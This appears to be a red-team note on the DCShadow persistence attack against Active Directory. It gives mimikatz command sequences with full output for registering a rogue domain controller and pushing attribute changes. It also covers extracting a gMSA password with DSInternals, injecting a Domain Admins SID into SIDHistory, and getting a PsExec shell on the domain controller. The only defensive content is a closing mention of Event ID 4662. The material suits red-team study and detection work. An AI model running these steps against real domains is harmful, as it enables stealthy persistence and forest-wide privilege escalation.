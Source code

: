 
Sources : 
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow
https://www.netwrix.com/how_dcshadow_persistence_attack_works.html

Create a rogue Domain Controller and push changes to the DC Active Directory objects.
Abuses of compromised replication permissions to mimic a domain controller and make malicious changes to Active Directory. It is often used to surreptitiously hide persistence mechanisms or to escalate privileges across domain trusts.
## DC Shadow with mimikatz

Running as SYSTEM

```powershell
privilege::debug 
token::elevate 
lsadump::dcshadow /stack /object:CN=Zoombie,DC=contoso,DC=com... 
... 
lsadump::dcshadow
```

Running as domain admin

```powershell
lsadump::dcshadow /push
```


## Step of DC Shadow

### Compromise an account with administrative permissions

Example with the password for a poorly secured group managed service account (GMSA) : 

```powershell
PS> Install-Module DSInternals -Force
PS> $GMSAPwd = (Get-ADServiceAccount GMSA1 -Prop msDS-ManagedPassword).'msDS-ManagedPassword'
PS> ConvertFrom-ManagedPasswordBlob $GMSAPwd | Select-Object -ExpandProperty CurrentPassword
帙뽐怦渌㉼璿盯粩랜曞꘭�呓ꉷᏤ�뉇ꘉ욚�㡝측퉷ㅓ栤쪇�픸滈್䊟杂瀳谈ꋋ랕軡첤研麛쪡뚗ጵ謗篷협锭褶࡮뻭寞ꁕꈳ¹䲔ᯊ鵋宫鰄먚㹆⻔㚅买嬷滺눲㫚圐ન盢ḟ뼁ጘ䱏ケ蔤䮍⿆߾겋舤쇻ω킌쏑ퟠ쎫�갥挼矤缀醩ℸꆀ뭈Ȩ窢盒२葰霝빶덻妓㼪喟㗾ꖣ뙑ข
```

#### Modify objects using the DC Shadow attack

The attack includes two parts:   

- Part 1.  The adversary elevates to `SYSTEM` and makes changes to the replicated object.
- Part 2.  The attacker uses the compromised account to push the changes back to a real domain controller.

Example 1 : 

To create a new instance of mimikatz running in the local system security context
```powershell
.\mimikatz.exe
process::runp
lsadump::dcshadow /object:katrina.mendoza.adm /attribute:lastLogonTimestamp /value:123567890123456789
```

It starts a fake server and is waiting for a legit DC to replicate: 
![[Pasted image 20231101215034.png]]

Now to force a legitimate DC to replicate with our fake server, run the following in the red prompt: `lsadump::dcshadow /push`

Once the replication took place, the fake server will stop by itself: ![[Pasted image 20231101215119.png]]

Example 2 : 
Use [mimikatz](https://github.com/gentilkiwi/mimikatz) to inject a [SIDHistory](https://blog.stealthbits.com/privilege-escalation-with-dcshadow/) value for a privileged group in the same or another trusting domain. The SID used in this example represents the `Domain Admins` group in the parent (or forest root) domain.

```powershell
PS> .\mimikatz.exe
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
 
mimikatz # !ProcessToken
Token from process 0 to process 0
 * from 0 will take SYSTEM token
 * to 0 will take all 'cmd' and 'mimikatz' process
Token from 4/System
 * to 2232/powershell.exe
 * to 1252/cmd.exe
 * to 4496/mimikatz.exe
 
mimikatz # lsadump::dcshadow /object:"CN=BobT,OU=Employees,DC=sub,DC=domain,DC=com" /attribute:SidHistory /value:S-1-5-21-441320023-234525631-506766575-512
** Domain Info **
 
Domain:         DC=sub,DC=domain,DC=com
Configuration:  CN=Configuration,DC=domain,DC=com
Schema:         CN=Schema,CN=Configuration,DC=domain,DC=com
dsServiceName:  ,CN=Servers,CN=Site2,CN=Sites,CN=Configuration,DC=domain,DC=com
domainControllerFunctionality: 7 ( WIN2016 )
highestCommittedUSN: 468849
 
** Server Info **
 
Server: dc1.sub.domain.com
  InstanceId  : {be2d1604-3232-42f6-9c5b-8a37fbcdd357}
  InvocationId: {b38c988f-c904-4c18-afb3-943f12c12399}
Fake Server (not already registered): wks2.sub.domain.com
 
** Attributes checking **
 
#0: SidHistory
 
** Objects **
 
#0: CN=BobT,OU=Employees,DC=sub,DC=domain,DC=com
  SidHistory (1.2.840.113556.1.4.609-90261 rev 0):
    S-1-5-21-441320023-234525631-506766575-512
    (01050000000000051500000057024e1abf93fa0defa4341e00020000)
 
 
** Starting server **
 
 > BindString[0]: ncacn_ip_tcp:wks2[59644]
 > RPC bind registered
 > RPC Server is waiting!
== Press Control+C to stop ==
  cMaxObjects : 1000
  cMaxBytes   : 0x00a00000
  ulExtendedOp: 0
  pNC->Guid: {5bf57149-701e-47c1-bb39-35577f4ea087}
  pNC->Sid : S-1-5-21-3501040295-3816137123-30697657
  pNC->Name: DC=sub,DC=domain,DC=com
SessionKey: 1ade4b2cd9238108e9cc7c275202b9705c4bca951cbdf0e09b6a061a0e678740
1 object(s) pushed
 > RPC bind unregistered
 > stopping RPC server
 > RPC server stopped
```


```powershell
PS> .\mimikatz.exe
mimikatz # lsadump::dcshadow /push
** Domain Info **
 
Domain:         DC=sub,DC=domain,DC=com
Configuration:  CN=Configuration,DC=domain,DC=com
Schema:         CN=Schema,CN=Configuration,DC=domain,DC=com
dsServiceName:  ,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=domain,DC=com
domainControllerFunctionality: 7 ( WIN2016 )
highestCommittedUSN: 1037880
 
** Server Info **
 
Server: dc1.sub.domain.com
  InstanceId  : {ebe88399-c570-4143-bb89-9dc6546b8e09}
  InvocationId: {bef4eddf-eb26-4324-ba9d-abbae40669c5}
Fake Server (not already registered): wks2.sub.domain.com
 
** Performing Registration **
 
** Performing Push **
 
Syncing DC=sub,DC=domain,DC=com
Sync Done
 
** Performing Unregistration **
```


### Then, perform more objective

Adversary authenticates with the compromised account that is now a member of Domain Admins, thereby gaining administrative access to the forest root domain and the ability to compromise any domain in the forest.

```powershell
PS> .\PsExec.exe \\dc1.domain.com powershell.exe
 
PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
 
 
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
 
Try the new cross-platform PowerShell https://aka.ms/pscore6
 
PS> hostname
dc1
```




Event ID : `4662`